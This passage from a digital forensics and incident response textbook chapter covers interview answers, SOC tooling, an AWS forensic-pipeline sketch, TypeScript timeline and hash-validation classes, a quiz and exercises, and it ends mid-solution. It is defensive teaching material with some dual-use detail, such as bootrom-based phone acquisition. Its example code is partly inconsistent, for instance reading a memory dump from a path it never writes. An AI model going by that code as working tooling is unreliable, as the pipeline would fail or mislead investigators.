**Answer:** The four phases are: (1) **Preparation** → establishing CSIRT, tools, playbooks, and training before an incident occurs. This is the most important phase. (2) **Detection & Analysis** → identifying that an incident is occurring through SIEM alerts, user reports, or threat intelligence, and analyzing the scope and severity. (3) **Containment, Eradication & Recovery** → stopping the attack from spreading (containment), removing the threat from affected systems (eradication), and returning to normal operations (recovery). (4) **Post-Incident Activity** → conducting lessons learned, writing the incident report, updating playbooks, and improving defenses. The lifecycle is iterative → lessons learned feed back into preparation.

### Q7: What is the difference between MTTD, MTTR, and MTTC?


**Answer:** These are SOC performance metrics: 
- **MTTD (Mean Time to Detect)** → average time from the start of the incident to when it is detected. Target: &lt;1 hour for critical incidents. Formula: Sum of detection times / number of incidents.
- **MTTR (Mean Time to Respond)** → average time from detection to the start of response actions. Target: &lt;15 minutes for critical incidents.
- **MTTC (Mean Time to Contain)** → average time from detection to successful containment (stopping the incident from spreading). Target: &lt;1 hour for active threats. These metrics are tracked to measure SOC effectiveness → improving all three reduces overall incident impact.

### Q8: How would you investigate a potential data exfiltration incident?


**Answer:** A data exfiltration investigation follows this methodology: (1) **Network analysis** → Zeek/Wireshark analyze outbound connections: look for large data transfers, connections to unusual IPs/countries, FTP/SFTP traffic, encrypted tunnels. (2) **Endpoint analysis** → check process creation logs (Event ID 4688) for compression tools (7z, WinRAR), upload scripts (PowerShell webclient), or DLP bypass tools. (3) **Volume analysis** → compare baseline outbound traffic (from NetFlow/VPC Flow Logs) against current volumes. Look for >2 standard deviation increases. (4) **File system analysis** → check for staging directories (unusual .7z, .zip files, especially in temp or appdata). (5) **Cloud analysis** → check CloudTrail for S3 bucket exports, database snapshots, or unusual data transfer API calls. (6) **Timeline correlation** → align data transfer events with user login times, off-hours access, and terminated employees.

### Q9: Explain how YARA rules work and give an example of when you would write one.


**Answer:** YARA rules are pattern-matching rules used to identify and classify malware. A rule consists of: meta (author, description), strings (hex, text, or regex patterns), and condition (when the rule matches). Example scenario: You discover a new ransomware variant with the string "LOCKBIT" and a specific encryption function call. You write a YARA rule that matches files containing "LOCKBIT" AND the hex pattern of the encryption function. This rule is then deployed across your EDR to scan all endpoints for this specific ransomware. YARA is also used with Volatility (yarascan) to scan memory dumps and on file servers to scan uploaded files.

### Q10: What is the difference between logical and physical mobile acquisition?


**Answer:** **Logical acquisition** uses the operating system's APIs to extract data. It retrieves what the OS allows: call logs, SMS, contacts, media files, and some app data. It does NOT capture deleted files or unallocated space. It works on locked devices (if USB debugging/trust is established) and does not require root/jailbreak. **Physical acquisition** creates a bit-for-bit copy of the device's flash memory. It recovers ALL data including deleted files, unallocated space, hidden partitions, and app remnants. It requires either a bootrom exploit (Checkm8 for older iOS devices), JTAG/SWD connections, or chip-off (physically removing the NAND chip). Physical acquisition recovers significantly more data but requires specialized hardware (Cellebrite, JTAG) and may void warranties. For modern encrypted devices (iOS 8+, Android 6+), physical acquisition may still be limited by hardware encryption.

### Q11: Describe a time when the chain of custody was crucial in a digital forensics case.


**Answer:** [Sample Answer] In a case involving employee theft of intellectual property, we captured a forensic image of the employee's laptop. The chain of custody documented: the seizure time (10:00 AM on Monday), the imaging process (dd with write-blocker, verified by SHA-256 hash), the individual who imaged it (Sarah Jones, CFCE), the storage location (safe #3 in the forensic lab), and every person who accessed it. When the employee sued for wrongful termination, the defense attempted to argue that evidence was planted. However, we produced the chain of custody form with timestamps matching our investigation timeline, hash values that matched across every verification, and sworn statements from every custodian. The judge admitted all evidence, and the case was settled. Had any link in the chain been missing → even a single signature → the evidence would likely have been suppressed.

### Q12: What is the significance of the MFT in NTFS forensics?


**Answer:** The Master File Table ($MFT) is the heart of NTFS → it contains an entry for every file and folder on the volume. Each 1024-byte entry contains metadata including: timestamps (created, modified, accessed, MFT modified), file permissions, security descriptors, file size, and data location. From a forensic perspective, the MFT reveals: (1) file creation order (entries are allocated sequentially → lower numbers = earlier created), (2) deleted files (entries marked with flags 0x00, data may still exist in clusters until overwritten), (3) timestomping detection ($STANDARD_INFORMATION vs $FILE_NAME timestamps differ when an attacker only modifies one), (4) resident data (small files &lt;~700 bytes are stored entirely within the MFT entry), (5) previously deleted entries (MFT slack space contains fragments of prior entries). Tools like MFTECmd and analyzeMFT parse the MFT into CSV for timeline analysis.

---

## 15. Applications in Real Systems

### Enterprise SOC Architecture


A typical enterprise SOC integrates multiple tools and processes for forensics and IR:

```
┌─────────────────────────────────────────────────────────────┐
│                      SIEM (Splunk/ELK/Sentinel)              │
│  Log Aggregation → Correlation → Alerting → Dashboard       │
├─────────────────────────────────────────────────────────────┤
│                    SOAR (XSOAR/Splunk SOAR)                  │
│  Alert Enrichment → Playbook Execution → Ticket Creation    │
├─────────────────────────────────────────────────────────────┤
│   EDR/XDR (CrowdStrike/SentinelOne) │ NDR (Darktrace/Zeek)  │
│   Endpoint Detection & Response     │ Network Detection     │
├─────────────────────────────────────────────────────────────┤
│                   Forensics Workbench                        │
│   Memory Analysis    │  Disk Analysis   │  Timeline          │
│   Volatility + rekall│  Autopsy/EnCase  │  Plaso/Timesketch  │
├─────────────────────────────────────────────────────────────┤
│               Threat Intelligence Platform                   │
│  MISP → IOC feeds → IOCs pushed to SIEM + EDR               │
├─────────────────────────────────────────────────────────────┤
│               Incident Response Platform                     │
│  TheHive/Cortex → Case Management → Playbook Automation     │
└─────────────────────────────────────────────────────────────┘
```

### Forensics in Cloud-Native Environments


Modern forensics must account for:
- **Auto-scaling groups** → instances terminate automatically, destroying evidence. Solution: enable detailed CloudTrail, VPC Flow Logs, and automated snapshot triggers.
- **Containers** → forensics collect container images, logs, and Docker diff rather than traditional disk images.
- **Serverless (Lambda)** → function code, CloudWatch logs, and execution environment are the evidence sources.
- **Kubernetes** → etcd database + pod logs + audit logs provide full cluster state history.
- **CI/CD Pipelines** → builds are ephemeral. Log every pipeline step and store build artifacts.

### Automated Forensics → DFIR Orchestration


```python
# Example: Automated DFIR pipeline
# Triggered by SIEM alert for suspected C2 communication

import boto3, os, subprocess, json

def automated_forensics(alert):
    instance_id = alert['resource_id']
    
    # Step 1: Snapshot the instance's EBS volume
    ec2 = boto3.client('ec2')
    volumes = ec2.describe_instance_attribute(
        InstanceId=instance_id, Attribute='blockDeviceMapping'
    )
    for device in volumes['BlockDeviceMappings']:
        snapshot = ec2.create_snapshot(
            VolumeId=device['Ebs']['VolumeId'],
            Description=f"Forensic snapshot: {alert['case_id']}"
        )
    
    # Step 2: Capture memory (if SSM agent available)
    ssm = boto3.client('ssm')
    try:
        response = ssm.send_command(
            InstanceIds=[instance_id],
            DocumentName='AWS-RunShellScript',
            Parameters={
                'commands': [
                    'sudo insmod lime.ko "path=/tmp/memory.lime format=lime"',
                    'aws s3 cp /tmp/memory.lime s3://forensic-bucket/memory/'
                ]
            }
        )
    except Exception as e:
        print(f"Memory capture failed: {e}")
    
    # Step 3: Export CloudTrail events
    trail = boto3.client('cloudtrail')
    events = trail.lookup_events(
        LookupAttributes=[{
            'AttributeKey': 'ResourceName',
            'AttributeValue': instance_id
        }],
        StartTime=alert['timestamp'] - 3600,  # 1 hour before alert
        EndTime=alert['timestamp'] + 3600      # 1 hour after alert
    )
    
    # Step 4: Create forensic analysis instance
    analysis = ec2.run_instances(
        ImageId='ami-forensic-analysis-toolkit',
        InstanceType='m5.2xlarge',
        BlockDeviceMappings=[{
            'DeviceName': '/dev/sdf',
            'Ebs': {'SnapshotId': snapshot['SnapshotId']}
        }]
    )
    
    # Step 5: Auto-run analysis scripts
    analysis_commands = [
        'tsk_recover -e /dev/sdf1 /evidence/',
        'vol -f /evidence/memory.lime windows.pstree > /evidence/processes.txt',
        'yara -r malware_rules.yara /evidence/ > /evidence/yara_matches.txt'
    ]
    
    return {
        'case_id': alert['case_id'],
        'snapshot': snapshot['SnapshotId'],
        'analysis_instance': analysis['Instances'][0]['InstanceId'],
        'status': 'forensics_in_progress'
    }
```

### Compliance Frameworks Referencing Forensics & IR


| Framework | Forensics/IR Requirements |
|-----------|--------------------------|
| **PCI DSS 4.0** | Requirement 12.10: Incident response plan, annual testing, forensic investigation for cardholder data breaches |
| **HIPAA** | 45 CFR §164.308: Security incident procedures, response and reporting |
| **GDPR** | Article 33: Breach notification within 72 hours. Article 32: Appropriate technical measures (includes logging and forensics) |
| **NIST CSF** | RS.AN (Analysis): Investigate incidents. RS.MI (Mitigation): Contain incidents. RC.RP (Recovery): Restore operations |
| **ISO 27001** | A.16.1: Incident management → roles, response, evidence collection, lessons learned |
| **SOC 2** | CC7.3: Incident response and forensic investigation capabilities |
| **SWIFT CSP** | Principle 9: Incident response and forensic analysis for SWIFT-related security incidents |
| **FedRAMP** | IR-4: Incident handling → evidence collection, preservation, chain of custody |

### Career Paths in Forensics & Incident Response


| Role | Entry Level | Mid Level | Senior Level |
|------|-------------|-----------|--------------|
| **Digital Forensic Analyst** | BS in CS/Cyber, Certifications | GCFE, X-Ways, EnCE certifications | 10+ years, CFE, expert testimony |
| **Incident Responder** | SOC experience (1-2 years) | GCIH, GCFA, Python scripting | 8+ years, IR team lead |
| **Malware Analyst** | Assembly/RE experience | GREM, reverse engineering | 10+ years, zero-day discovery |
| **SOC Analyst** | Security+ certification | CySA+, SIEM tuning | SOC manager, CISSP |
| **Cloud Forensics** | Cloud certifications (AWS/Azure) | Cloud forensics training | 8+ years, multi-cloud expertise |
| **Mobile Forensics** | Mobile security basics | Cellebrite certified, CFCE | 10+ years, expert witness |

---

## Practical Takeaways

| Takeaway | Application |
|----------|-------------|
| Always follow the Order of Volatility | Capture RAM first, then network state, then disk — preserve the most fragile evidence before it disappears |
| Document chain of custody at every step | Every evidence transfer requires a signature, timestamp, and hash verification to maintain legal admissibility |
| Use write-blockers for all disk acquisitions | Hardware write-blockers (Tableau, WiebeTech) prevent any modification to original evidence during imaging |
| Combine disk, memory, and network forensics | Correlate MFT artifacts with Volatility process lists and Zeek connection logs to reconstruct the full attack chain |
| Automate incident response with SOAR playbooks | Reduce MTTR from hours to minutes by building automated enrichment, scoring, and containment workflows |
| Validate YARA rules against clean baselines | Test custom YARA rules on known-good file collections to eliminate false positives before production deployment |

---

## Summary

- The **digital forensics methodology** (Identification → Preservation → Collection → Examination → Analysis → Presentation) provides a legally defensible framework for evidence handling.
- **Chain of custody** is the evidential chain that ensures data integrity from collection to courtroom → broken chain = inadmissible evidence.
- **Order of volatility** dictates the collection sequence: collect the most fragile evidence (RAM) before anything else.
- **Disk forensics** using MFT analysis, file carving, and tools like Autopsy and Sleuth Kit recovers even deleted evidence from storage media.
- **Memory forensics** with Volatility 3 reveals fileless malware, injected code, network connections, and encryption keys that never touch the disk.
- **Network forensics** with Wireshark and Zeek reconstructs C2 communications, lateral movement, and data exfiltration from packet captures.
- **Mobile forensics** requires specialized approaches for Android and iOS, with increasing challenges from encryption and secure enclaves.
- **Cloud forensics** demands API-driven evidence collection in ephemeral environments where traditional physical acquisition is impossible.
- The **NIST SP 800-61 IR lifecycle** (Preparation → Detection → Containment/Eradication/Recovery → Post-Incident) is the industry-standard framework for incident response.
- **SIEM, SOAR, and XDR** provide complementary capabilities: SIEM for visibility, SOAR for automation, XDR for integrated detection and response.
- **YARA rules** enable custom malware detection through pattern matching in files and memory.
- Real-world case studies demonstrate that the fundamentals → network segmentation, MFA, and proper logging → are the difference between a contained incident and a catastrophic breach.

---

## TypeScript Implementations

### Forensic Timeline Analyzer


```typescript
/**
 * Forensic Timeline Analyzer
 *
 * Builds a unified timeline from disparate forensic event sources (disk, memory,
 * network, cloud logs) and correlates events by source IP, timestamp clusters,
 * and process ancestry. Essential for reconstructing attack chains in incident
 * response investigations.
 */

interface ForensicEvent {
  timestamp: Date;
  source: string;
  eventType: string;
  description: string;
  severity: string;
  sourceIp?: string;
  destinationIp?: string;
  processId?: number;
  parentProcessId?: number;
  processName?: string;
  userId?: string;
}

interface ForensicTimeline {
  events: ForensicEvent[];
  sorted: boolean;
  timeRange: { start: Date; end: Date };
  eventCount: number;
}

interface CorrelatedGroup {
  correlationType: 'same-ip' | 'time-cluster' | 'process-ancestry' | 'user-activity';
  events: ForensicEvent[];
  description: string;
  confidence: number;
}

class TimelineAnalyzer {
  /** Sorts events chronologically and wraps them in a ForensicTimeline */
  buildTimeline(events: ForensicEvent[]): ForensicTimeline {
    const sorted = [...events].sort(
      (a, b) => a.timestamp.getTime() - b.timestamp.getTime()
    );
    return {
      events: sorted,
      sorted: true,
      timeRange: {
        start: sorted[0]?.timestamp || new Date(),
        end: sorted[sorted.length - 1]?.timestamp || new Date(),
      },
      eventCount: sorted.length,
    };
  }

  /** Groups events sharing the same source IP address */
  correlateBySourceIp(events: ForensicEvent[]): CorrelatedGroup[] {
    const ipGroups = new Map<string, ForensicEvent[]>();
    for (const event of events) {
      if (event.sourceIp) {
        const key = event.sourceIp;
        if (!ipGroups.has(key)) ipGroups.set(key, []);
        ipGroups.get(key)!.push(event);
      }
    }
    const results: CorrelatedGroup[] = [];
    for (const [ip, ipEvents] of ipGroups) {
      if (ipEvents.length >= 2) {
        results.push({
          correlationType: 'same-ip',
          events: ipEvents,
          description: `Activity cluster from source IP ${ip} — ${ipEvents.length} events`,
          confidence: Math.min(0.65 + ipEvents.length * 0.05, 0.95),
        });
      }
    }
    return results;
  }

  /** Identifies bursts of activity within a configurable time window */
  correlateByTimeClusters(
    events: ForensicEvent[],
    windowMs: number = 300_000
  ): CorrelatedGroup[] {
    const sorted = [...events].sort(
      (a, b) => a.timestamp.getTime() - b.timestamp.getTime()
    );
    const groups: CorrelatedGroup[] = [];
    let clusterStart = 0;
    for (let i = 1; i < sorted.length; i++) {
      const gap =
        sorted[i].timestamp.getTime() - sorted[i - 1].timestamp.getTime();
      if (gap > windowMs) {
        if (i - clusterStart >= 3) {
          const cluster = sorted.slice(clusterStart, i);
          groups.push({
            correlationType: 'time-cluster',
            events: cluster,
            description: `Burst of ${cluster.length} events within ${windowMs / 1000}s window`,
            confidence: Math.min(0.5 + cluster.length * 0.1, 0.95),
          });
        }
        clusterStart = i;
      }
    }
    return groups;
  }

  /** Groups child processes under their parent process IDs */
  correlateByProcessAncestry(events: ForensicEvent[]): CorrelatedGroup[] {
    const parentMap = new Map<number, ForensicEvent[]>();
    for (const event of events) {
      if (event.parentProcessId !== undefined) {
        if (!parentMap.has(event.parentProcessId)) {
          parentMap.set(event.parentProcessId, []);
        }
        parentMap.get(event.parentProcessId)!.push(event);
      }
    }
    const results: CorrelatedGroup[] = [];
    for (const [parentPid, children] of parentMap) {
      if (children.length >= 2) {
        results.push({
          correlationType: 'process-ancestry',
          events: children,
          description: `Process tree rooted at PID ${parentPid} — ${children.length} child events`,
          confidence: 0.8,
        });
      }
    }
    return results;
  }

  /** Runs all correlation strategies and returns combined results */
  correlateEvents(events: ForensicEvent[]): CorrelatedGroup[] {
    return [
      ...this.correlateBySourceIp(events),
      ...this.correlateByTimeClusters(events),
      ...this.correlateByProcessAncestry(events),
    ];
  }

  /** Produces a human-readable forensic narrative from the timeline */
  generateNarrative(timeline: ForensicTimeline): string {
    const groups = this.correlateEvents(timeline.events);
    const lines: string[] = [
      '=== FORENSIC ANALYSIS NARRATIVE ===',
      `Time Range: ${timeline.timeRange.start.toISOString()} — ${timeline.timeRange.end.toISOString()}`,
      `Total Events: ${timeline.eventCount}`,
      `Correlated Groups: ${groups.length}`,
      '',
    ];
    for (const group of groups) {
      lines.push(
        `[${group.correlationType}] (confidence: ${(group.confidence * 100).toFixed(0)}%)`
      );
      lines.push(`  ${group.description}`);
      const sorted = [...group.events].sort(
        (a, b) => a.timestamp.getTime() - b.timestamp.getTime()
      );
      for (const event of sorted) {
        lines.push(
          `    ${event.timestamp.toISOString()} | ${event.source} | ${event.eventType} | ${event.description}`
        );
      }
      lines.push('');
    }
    lines.push('=== END OF NARRATIVE ===');
    return lines.join('\n');
  }
}

// --- Example usage ---
const analyzer = new TimelineAnalyzer();
const events: ForensicEvent[] = [
  {
    timestamp: new Date('2026-06-15T10:00:00Z'),
    source: 'WinEventLog:4625',
    eventType: 'Failed Login',
    description: 'Failed logon for user admin from 203.0.113.5',
    severity: 'medium',
    sourceIp: '203.0.113.5',
  },
  {
    timestamp: new Date('2026-06-15T10:00:03Z'),
    source: 'WinEventLog:4625',
    eventType: 'Failed Login',
    description: 'Failed logon for user root from 203.0.113.5',
    severity: 'medium',
    sourceIp: '203.0.113.5',
  },
  {
    timestamp: new Date('2026-06-15T10:00:06Z'),
    source: 'WinEventLog:4624',
    eventType: 'Successful Login',
    description: 'Successful logon for user jdoe from 203.0.113.5',
    severity: 'high',
    sourceIp: '203.0.113.5',
    processId: 1001,
    parentProcessId: 500,
    processName: 'winlogon.exe',
  },
  {
    timestamp: new Date('2026-06-15T10:01:00Z'),
    source: 'Sysmon:1',
    eventType: 'Process Create',
    description: 'cmd.exe launched by winlogon.exe',
    severity: 'high',
    processId: 2001,
    parentProcessId: 1001,
    processName: 'cmd.exe',
    sourceIp: '203.0.113.5',
  },
  {
    timestamp: new Date('2026-06-15T10:01:30Z'),
    source: 'Sysmon:3',
    eventType: 'Network Connection',
    description: 'Outbound connection to 198.51.100.99:4444',
    severity: 'critical',
    processId: 2001,
    parentProcessId: 1001,
    processName: 'cmd.exe',
    sourceIp: '203.0.113.5',
    destinationIp: '198.51.100.99',
  },
];

const timeline = analyzer.buildTimeline(events);
console.log(analyzer.generateNarrative(timeline));
```

### Hash Set Validator


```typescript
/**
 * Hash Set Validator
 *
 * Validates file integrity using SHA-256 and MD5 hashes against known-good
 * baselines and threat intelligence feeds. Supports forensic integrity
 * verification, malware detection through hash matching, and chain-of-custody
 * documentation.
 */

interface FileRecord {
  path: string;
  sha256: string;
  md5: string;
  size: number;
  lastModified?: Date;
  fileType?: string;
}

interface ValidationResult {
  modified: FileRecord[];
  new: FileRecord[];
  deleted: FileRecord[];
}

interface ThreatMatch {
  file: FileRecord;
  threatName: string;
  source: string;
  severity: string;
}

class HashValidator {
  /**
   * Compares current file set against a known-good baseline to identify
   * modified, new, and deleted files — essential for forensic integrity
   * checking during incident response.
   */
  validateAgainstKnownGood(
    files: FileRecord[],
    knownGood: Map<string, FileRecord>
  ): ValidationResult {
    const result: ValidationResult = { modified: [], new: [], deleted: [] };
    const currentPaths = new Set(files.map((f) => f.path));

    for (const file of files) {
      const baseline = knownGood.get(file.path);
      if (baseline) {
        if (file.sha256 !== baseline.sha256 || file.md5 !== baseline.md5) {
          result.modified.push(file);
        }
      } else {
        result.new.push(file);
      }
    }

    for (const [path, record] of knownGood) {
      if (!currentPaths.has(path)) {
        result.deleted.push(record);
      }
    }

    return result;
  }

  /**
   * Checks file hashes against known threat intelligence feeds to identify
   * potentially malicious files (malware, ransomware, rootkits, etc.).
   */
  validateAgainstThreatIntel(
    files: FileRecord[],
    threatIntel: Map<string, string>
  ): ThreatMatch[] {
    const matches: ThreatMatch[] = [];
    for (const file of files) {
      const sha256Threat = threatIntel.get(file.sha256);
      const md5Threat = threatIntel.get(file.md5);
      const threatName = sha256Threat || md5Threat;

      if (threatName) {
        matches.push({
          file,
          threatName,
          source: sha256Threat ? 'SHA-256' : 'MD5',
          severity: this.classifyThreatSeverity(threatName),
        });
      }
    }
    return matches;
  }

  /**
   * Generates a comprehensive forensic hash report suitable for
   * chain-of-custody documentation and court admissibility.
   */
  generateHashReport(
    files: FileRecord[],
    validationResult?: ValidationResult,
    threatMatches?: ThreatMatch[]
  ): string {
    const lines: string[] = [];
    lines.push('='.repeat(80));
    lines.push('FORENSIC HASH VALIDATION REPORT');
    lines.push('='.repeat(80));
    lines.push(`Generated: ${new Date().toISOString()}`);
    lines.push(`Files Analyzed: ${files.length}`);
    lines.push('');

    lines.push('--- File Inventory ---');
    for (const file of files.sort((a, b) => a.path.localeCompare(b.path))) {
      lines.push(`Path:     ${file.path}`);
      lines.push(`SHA-256:  ${file.sha256}`);
      lines.push(`MD5:      ${file.md5}`);
      lines.push(`Size:     ${file.size} bytes`);
      if (file.fileType) lines.push(`Type:     ${file.fileType}`);
      lines.push('');
    }

    if (validationResult) {
      lines.push('--- Integrity Validation ---');
      lines.push(`Modified: ${validationResult.modified.length}`);
      for (const f of validationResult.modified) {
        lines.push(`  [MODIFIED] ${f.path}`);
      }
      lines.push(`New Files: ${validationResult.new.length}`);
      for (const f of validationResult.new) {
        lines.push(`  [NEW] ${f.path}`);
      }
      lines.push(`Deleted:   ${validationResult.deleted.length}`);
      for (const f of validationResult.deleted) {
        lines.push(`  [DELETED] ${f.path}`);
      }
      lines.push('');
    }

    if (threatMatches && threatMatches.length > 0) {
      lines.push('--- Threat Intelligence Matches ---');
      for (const match of threatMatches) {
        lines.push(`  [${match.severity}] ${match.file.path}`);
        lines.push(`    Threat: ${match.threatName}`);
        lines.push(`    Match:  ${match.source}`);
      }
      lines.push('');
    }

    lines.push('--- End of Report ---');
    return lines.join('\n');
  }

  private classifyThreatSeverity(threatName: string): string {
    const critical = ['ransomware', 'rootkit', 'trojan', 'worm', 'loader'];
    const high = ['spyware', 'backdoor', 'keylogger', 'downloader', 'dropper'];
    const lower = threatName.toLowerCase();
    if (critical.some((t) => lower.includes(t))) return 'CRITICAL';
    if (high.some((t) => lower.includes(t))) return 'HIGH';
    return 'MEDIUM';
  }
}

// --- Example usage ---
const validator = new HashValidator();

// Build a known-good baseline
const knownGood = new Map<string, FileRecord>();
knownGood.set('/bin/ls', {
  path: '/bin/ls',
  sha256: 'a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b',
  md5: '11111111111111111111111111111111',
  size: 142000,
});
knownGood.set('/bin/bash', {
  path: '/bin/bash',
  sha256: 'b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2c',
  md5: '22222222222222222222222222222222',
  size: 1210000,
});

// Current files on the system (simulating post-incident snapshot)
const currentFiles: FileRecord[] = [
  {
    path: '/bin/ls',
    sha256: 'ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff',
    md5: '33333333333333333333333333333333',
    size: 142000,
    lastModified: new Date('2026-06-15T03:00:00Z'),
    fileType: 'ELF executable',
  },
  {
    path: '/bin/bash',
    sha256: 'b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2c',
    md5: '22222222222222222222222222222222',
    size: 1210000,
    lastModified: new Date('2026-01-01T00:00:00Z'),
    fileType: 'ELF executable',
  },
  {
    path: '/tmp/.malware',
    sha256: 'eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee',
    md5: '44444444444444444444444444444444',
    size: 65536,
    lastModified: new Date('2026-06-15T03:05:00Z'),
    fileType: 'ELF executable',
  },
];

// Threat intelligence feed
const threatIntel = new Map<string, string>();
threatIntel.set(
  'eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee',
  'Trojan.Generic.2026'
);

// Run validation
const integrityResult = validator.validateAgainstKnownGood(currentFiles, knownGood);
console.log('Integrity Check:');
console.log(`  Modified: ${integrityResult.modified.length} file(s)`);
console.log(`  New:      ${integrityResult.new.length} file(s)`);
console.log(`  Deleted:  ${integrityResult.deleted.length} file(s)`);

const threatMatches = validator.validateAgainstThreatIntel(currentFiles, threatIntel);
console.log(`\nThreat Intel Matches: ${threatMatches.length}`);
threatMatches.forEach((m) =>
  console.log(`  [${m.severity}] ${m.file.path} — ${m.threatName}`)
);

// Generate full report for chain of custody
console.log(
  '\n' + validator.generateHashReport(currentFiles, integrityResult, threatMatches)
);
```

---

## Mermaid Diagrams

### Incident Response Lifecycle (NIST SP 800-61)




### Chain of Custody Workflow




---

## Chapter Quiz

| # | Question | A | B | C | D | Answer |
|---|----------|---|---|---|---|--------|
| 1 | What is the FIRST step in the digital forensics methodology? | Collection | Identification | Analysis | Presentation | **B** |
| 2 | Chain of custody documentation is critical because: | It tracks hardware inventory | Without it, evidence may be ruled inadmissible in court | It helps identify malware | It is required for SIEM integration | **B** |
| 3 | Which of the following follows the correct Order of Volatility? | Hard drive → RAM → Network connections → CPU registers | CPU registers → RAM → Network connections → Hard drive | RAM → Hard drive → Network connections → CPU registers | CPU registers → Network connections → RAM → Hard drive | **B** |
| 4 | What does MFT stand for in disk forensics? | Master File Table | Main Forensic Tool | Metadata File Tracker | Memory Fault Table | **A** |
| 5 | Which tool is the industry standard for memory forensics? | Wireshark | Volatility | Autopsy | Zeek | **B** |
| 6 | Which phase of the NIST SP 800-61 IR lifecycle involves removing malware and patching vulnerabilities? | Detection | Containment | Eradication | Recovery | **C** |
| 7 | What is the primary purpose of file carving in disk forensics? | To encrypt forensic images | To recover deleted files based on file signatures | To compress evidence storage | To create hash values | **B** |
| 8 | In mobile forensics, what is the biggest challenge for iOS data acquisition? | SELinux policies | Encryption and Secure Enclave | SD card encryption | Android fragmentation | **B** |
| 9 | Which of the following is NOT one of the six phases of the digital forensics methodology? | Identification | Preservation | Prosecution | Collection | **C** |
| 10 | YARA rules are primarily used for: | Network packet capture | Pattern-based malware detection | Disk encryption | User authentication | **B** |

---

## Exercises

### Review Questions

1. What are the six phases of the digital forensics methodology?

<details>
<summary>Solution</summary>
1) Identification (detect an incident). 2) Preservation (isolate, create forensic images). 3) Collection (acquire data following order of volatility). 4) Examination (forensic analysis of acquired data). 5) Analysis (correlate findings, draw conclusions). 6) Reporting (document methodology, findings, and conclusions for stakeholders/court).
</details>

2. Explain the Order of Volatility and why it matters for incident response.

<details>
<summary>Solution</summary>
Order of Volatility prioritizes collecting evidence from most volatile to least: CPU registers/cache → RAM → network connections → running processes → temporary files → disk → backups/archives. Critical because volatile data (RAM, network state) is lost on power-off. Collect most volatile first to preserve evidence that would otherwise be lost when the system is shut down.
</details>

3. What is the difference between live acquisition and dead acquisition?

<details>
<summary>Solution</summary>
Live acquisition: collecting evidence from a running system (RAM, network connections, running processes). Preserves volatile data but the acquisition tool itself modifies system state slightly. Dead acquisition: collecting evidence from a powered-off system (disk imaging, cold boot). More forensically sound (no state changes by tools) but loses volatile data. Live first, then dead.
</details>

4. List three types of evidence that can be recovered from a Windows registry hive.

<details>
<summary>Solution</summary>
1) Recently accessed files (MRU lists, UserAssist). 2) USB device history (USBSTOR, Portable Devices). 3) User account information (SAM hive — usernames, last login, failed login count). Also: network shares (Network), installed programs (Uninstall), shell bags (BagMRU — folder view settings that reveal directory browsing history).
</details>

5. What is the chain of custody and why is it legally critical?

<details>
<summary>Solution</summary>
Chain of custody documents every person who handled evidence, when, why, and what changes were made. It must show: who collected, who secured, who analyzed, and who stored the evidence — with timestamps and signatures. Legally critical because without it, evidence can be challenged as tampered or inadmissible in court. "If it wasn't documented, it didn't happen."
</details>

6. Explain the difference between NIST SP 800-61 and SANS PICERL incident response frameworks.

<details>
<summary>Solution</summary>
NIST SP 800-61: Preparation → Detection & Analysis → Containment/Eradication/Recovery → Post-Incident Activity. SANS PICERL: Preparation → Identification → Containment → Eradication → Recovery → Lessons Learned. The key differences: NIST combines containment/eradication/recovery as one phase; SANS separates them. NIST emphasizes detection/analysis more; SANS is more operational with clear phase gates.
</details>

### Practical Exercises


1. **Memory Acquisition:** Use FTK Imager or Belkasoft to acquire a memory dump from a test Windows machine. Verify the integrity of the dump using SHA-256 hashing. Document the process step by step.

<details>
<summary>Solution</summary>
Steps: 1) Download and run FTK Imager (as admin). 2) File → Capture Memory → select output directory and filename (e.g., memdump.mem). 3) Include pagefile.sys if available. 4) Click "Capture Memory" and wait. 5) After acquisition, verify integrity: `Get-FileHash memdump.mem -Algorithm SHA256`. 6) Store the hash separately. 7) Document: date/time, system info, tool version, hash value, chain of custody.
</details>

2. **File Carving:** Download a sample raw disk image from CFReDS (Digital Forensic Research Repository). Use foremost or scalpel to recover deleted files. Categorize recovered files by type (JPEG, PDF, DOCX, ZIP).

<details>
<summary>Solution</summary>
`foremost -t jpeg,pdf,doc,zip -i disk_image.raw -o output/`. This searches the raw image for file headers (JPEG: FFD8, PDF: 25504446, ZIP: 504B0304) and carves files based on headers and footers. Categorize by extension in the output directory. Scalpel uses a config file (scalpel.conf) with header/footer patterns for more control.
</details>

3. **Windows Registry Analysis:** Use RegRipper or autopsy to analyze a Windows registry hive. Extract:
   - Recently accessed files (MRU lists)
   - USB device history
   - User account information
   - Installed programs list

<details>
<summary>Solution</summary>
Use RegRipper: `rip.exe -r NTUSER.DAT -f mru` for recently accessed files. `rip.exe -r SYSTEM -f usb` for USB history. `rip.exe -r SAM -f sam` for user accounts. `rip.exe -r SOFTWARE -f uninstall` for installed programs. RegRipper outputs a timeline/text report with extracted evidence for each hive.
</details>

4. **Network Forensic Analysis:** Capture network traffic during a simulated attack (use your lab from Chapter 1). Use Wireshark and Zeek to:
   - Identify the attacker's IP address
   - Extract downloaded files from HTTP streams
   - Create a timeline of network events
   - Identify C2 beaconing patterns

<details>
<summary>Solution</summary>
Identify attacker IP: sort by destination IP, look for unusual outbound connections or scan patterns. Extract files: File → Export Objects → HTTP → select and save files. Timeline: Statistics → Flow Graph → TCP. C2 beaconing: look for periodic small packets at regular intervals (e.g., every 60s GET /, similar packet size). Alternatively, run Zeek: `zeek -r capture.pcap` → analyze conn.log for beaconing patterns (conn.log columns: ts, duration, orig_bytes, resp_bytes).
</details>

5. **Incident Response Tabletop Exercise:** Design a ransomware incident scenario. Write injects for each phase (Preparation → Detection → Containment → Eradication → Recovery → Post-Mortem). Include decision points and expected actions for each role.

<details>
<summary>Solution</summary>
